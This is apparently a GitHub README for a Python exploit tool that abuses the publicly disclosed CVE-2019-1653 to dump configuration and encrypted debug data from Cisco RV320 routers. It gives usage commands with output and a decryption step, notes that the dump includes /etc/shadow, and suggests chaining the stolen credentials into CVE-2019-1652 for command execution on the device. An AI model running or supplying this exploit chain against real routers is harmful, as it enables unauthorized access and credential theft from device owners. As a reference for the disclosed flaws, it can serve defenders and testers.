 # CiscoRV320Dump
CVE-2019-1653 Exploit For Dumping Cisco RV320 Configurations

All this does is dump the config out to a file for later shenanigans using the CVE-2019-1653 exploits disclosed by Red Team Pentesting GmbH.

## Example Use:

For the [configuration dump exploit](https://seclists.org/fulldisclosure/2019/Jan/52), just set target, port, ssl on/off, and output directory. It will dump the configuration to there. 
```
$ python dump_config.py -t x.x.x.x -p 8443 -s -d output
{+} Sending request to https://x.x.x.x:8443/cgi-bin/config.exp
{*} We seem to have found a valid config! Writing to output/x.x.x.x_8443.conf
$
```

For the [debug data dumping exploit](https://seclists.org/fulldisclosure/2019/Jan/53), it is the same routine, but the dumped data is larger and encrypted. 
You will want to decrypt this using the provided "decrypt.sh" script, or manually using `openssl`. This will give you a tar file.
The debug output not only gets you the config, but also backups of `/etc` and `/var`, and yes, the `/etc/shadow/` file is present.
I'll eventually rewrite the decryption script in Python, but this was a quick kludge.
```
$ python dump_debug.py -t x.x.x.x -p 8443 -s -d output
{+} Sending request to https://x.x.x.x:8443/cgi-bin/export_debug_msg.exp
{*} We seem to have found a valid encrypted config! Writing to output/x.x.x.x_8443.enc
$ ./decrypt.sh output/x.x.x.x_8443.enc 
Cisco Encrypted Debug Data Decryption Script!
{+} Decrypting output/x.x.x.x_8443.enc
{+} Plaintext should be at output/x.x.x.x_8443.enc.decrypted.tar.gz...
$ 
```

Using the creds you get from these (usually hashed) you can then exploit [CVE-2019-1652](https://seclists.org/fulldisclosure/2019/Jan/54) to execute commands on the device. Maybe I'll get around to writing an exploit for that part to round out the whole shitshow.
